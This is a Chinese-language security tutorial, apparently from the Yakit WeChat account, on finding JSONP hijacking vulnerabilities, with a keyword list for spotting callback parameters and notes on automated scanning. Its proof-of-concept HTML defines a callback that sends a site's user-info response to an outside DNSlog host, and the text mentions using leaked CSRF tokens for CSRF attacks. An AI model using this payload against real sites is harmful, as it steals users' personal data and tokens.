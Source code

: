 Time: 20220208:other: 首发于微信公众号「Yakit」,关于一个简单漏洞的发现到自动脚本化...:JSONP漏洞发现到漏洞挖掘
--------

# 什么是JSONP劫持漏洞

**同源策略**(同协议、同域名、同端口)导致的不同域名的网站无法传输数据，但是在某些时刻我们有需要进行跨域传输数据。
这时候**jsonp**身为跨域的方法中的一个就孕育而生了，由于html标签中的`<script>` 、`<img>`、`<iframe>` 这三个标签是允许进行资源的跨域获取的，jsonp就是利用了这三个标签中的其中一个 `<script>` 利用js代码动态生成script标签然后利用标签中的src属性来进行资源的跨域调用。
在数据传输未设置有效的校验的情况下，就有可能导致**JSONP劫持漏洞**，造成信息泄漏。

![](/static/img/WechatIMG2648.png)

在配置存在问题的情况下，**jsonp**使用**回调函数**来在第三方网站调出我们的敏感信息，从而达到获取敏感信息的目的，常见的利用场景如下：

* 获取个人信息，蓝队反制，蜜罐溯源等等
* 用于跨域传输数据，通过jsonp发起请求，得到泄露的**csrf_token**然后，利用这个token 实现**CSRF** 攻击
 

# JSONP 漏洞挖掘原理

* 使用火狐/谷歌浏览器打开开发者模式，选择`Network`，勾选`Preserve log`选项，防止干扰；在左下搜栏目寻找或者在可能存在`jsonp`的地方添加检索相应的`关键字`，访问目标相关网站即可：

```
jsonp
jsoncb
jsonpcb
cb
json
jsonpcall
jsoncall
jQuery
callback
back
```
在JSONP挖掘中，并不是只有callback才会出现JSONP漏洞，我们可一自己构造调用，毕竟`<script>`标签不支持同源策略，只有没有referer等限制，就有可能存在漏洞，其中POC如下：这里使用DNSlog来获取回调的信息：

```html
<script type="text/javascript">function jsonp_1610359498402_9620(json){
alert(JSON.stringify(json))
new Image().src="http://xxxx6.ceye.io/" + JSON.stringify(json)
}</script>
<script src="https://pcw-api.xxxxx.com/passport/user/userinfodetail?area=tw&callback=jsonp_1610359498402_9620"></script>
```


# 自动化漏洞扫描JSONP漏洞


* 被动扫描，类似X-ray
* 主动扫描，爬虫爬取链接识别
* 可以在疑似存在jsonp的地方加上`callback` 看看是否存在回调
